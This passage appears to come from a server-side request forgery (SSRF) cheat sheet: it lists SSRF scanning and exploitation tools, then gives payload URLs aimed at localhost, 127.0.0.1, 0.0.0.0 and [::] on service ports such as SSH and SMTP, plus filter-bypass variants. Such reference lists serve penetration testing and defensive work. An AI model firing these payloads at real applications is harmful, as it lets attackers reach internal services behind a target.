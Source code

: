 ## Tools

- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
- [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
- [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
- [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.
- [Horlad/r3dir](https://github.com/Horlad/r3dir) - a redirection service designed to help bypass SSRF filters that do not validate the redirect location. Intergrated with Burp with help of Hackvertor tags

## Payloads with localhost

* Using `localhost`
  ```powershell
  http://localhost:80
  http://localhost:443
  http://localhost:22
  ```
* Using `127.0.0.1`
  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:443
  http://127.0.0.1:22
  ```
* Using `0.0.0.0`
  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:443
  http://0.0.0.0:22
  ```

## Bypassing filters

### Bypass using HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Bypass localhost with [::]

```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```
